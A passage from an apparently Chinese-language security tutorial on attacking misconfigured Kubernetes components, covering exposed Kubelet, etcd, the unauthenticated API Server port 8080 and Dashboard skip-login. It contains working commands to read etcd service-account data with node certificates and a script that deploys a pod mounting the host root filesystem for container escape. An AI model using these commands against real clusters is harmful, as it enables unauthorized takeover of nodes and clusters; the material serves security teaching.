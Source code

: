 则网络可达的攻击者都能够直接与 Kubelet 进行交互，从而实现对其所在节点的控制。

#### [](#124-etcd)1.2.4 etcd

Kubernetes 集群内的各种资源及其状态均存储在 etcd 中。如果能够有办法读取 etcd 中的数据，就可能获取高权限，从而控制集群。

目前，etcd 启动后监听 2379 和 2380 两个端口，前者用于客户端连接，后者用于多个 etcd 实例之间的端对端通信。在多节点集群中，为了实现高可用，etcd 往往在节点 IP 上进行监听，已实现多节点的互通。

默认情况下，两个端口提供的服务都需要相应证书才能访问，并禁止匿名访问，来保证安全性。如果攻击者获取了证书，或者允许匿名访问，就可以直接获取 ectd 内的数据。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>etcdctl --endpoints https://localhost:2379 --cert /etc/kubernetes/pki/etcd/server.crt --key /etc/kubernetes/pki/etcd/server.key --cacert /etc/kubernetes/pki/etcd/ca.crt get /registry/serviceaccounts/kube-system/default -o json<br>``` |

## [](#2-k8s-%E7%BB%84%E4%BB%B6%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E7%9A%84%E6%94%BB%E5%87%BB%E6%A1%88%E4%BE%8B)2 k8s 组件配置不当的攻击案例

### [](#21-api-server-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)2.1 API Server 未授权访问

默认情况下，API Server 能够在两个端口上对外提供服务：`8080` 和 `6443`，前者以 HTTP 提供服务，无认证和授权机制；后者以 HTTPS 提供服务，支持认证和授权服务。在较新版本的 Kubernetes 中，`8080` 端口的 HTTP 服务默认不启动。然而，如果用户在 `/etc/kubernets/manifests/kube-apiserver.yaml` 中将 `--insecure-port=0` 修改为 `--insecure-port=8080` ，并重启 API Server，那么攻击者只要网络可达，都能够通过此端口操控集群。

如远程列出目标机器上运行的 pod：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>kubectl -s $TARGETIP:8080 get pod<br>``` |

进一步创建挂载宿主机目录的 Pod 进行容器逃逸，获得宿主机权限，相关操作如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>``` | ```bash<br>#!/bin/bash<br><br>cat << EOF > escape.yaml<br># attacker.yaml<br>apiVersion: v1<br>kind: Pod<br>metadata:<br>  name: attacker<br>spec:<br>  containers:<br>  - name: ubuntu<br>    image: ubuntu:latest<br>    imagePullPolicy: IfNotPresent<br>    # Just spin & wait forever<br>    command: [ "/bin/bash", "-c", "--" ]<br>    args: [ "while true; do sleep 30; done;" ]<br>    volumeMounts:<br>    - name: escape-host<br>      mountPath: /host-escape-door<br>  volumes:<br>    - name: escape-host<br>      hostPath:<br>        path: /<br>EOF<br><br>kubectl -s TARGET-IP:8080 apply -f escape.yaml<br>sleep 8<br>kubectl -s TARGET-IP:8080 exec -it attacker /bin/bash<br>``` |

### [](#22-dashboard-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)2.2 Dashboard 未授权访问

Kubernetes Dashboard 是一个基于 Web 的 Kubernetes 用户界面。借助 Dashboard，能够获得当前集群中应用运行状态的概览，创建或修改 Kubernetes 资源。

根据[官方文档](https://github.com/kubernetes/dashboard#install)，可以使用以下命令部署 Dashboard:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>kubectl apply -f https://raw.githubusercontent.com/kubernetes/dashboard/v2.4.0/aio/deploy/recommended.yaml<br>``` |

Dashboard 需要配置 token 才能够访问，但是提供了「跳过」选项。从 1.10.1 版本起，Dashboard 默认禁用了「跳过」按钮。然而，如果用户在运行 Dashboard 时添加了 `--enable-skip-login`，那么攻击者只要网络可达，就能进入 Dashboard：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202112011541799.png-water_print](assets/1699410706-e40517ea476e0797b7638928c4a27244 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202112011541799.png-water_print")
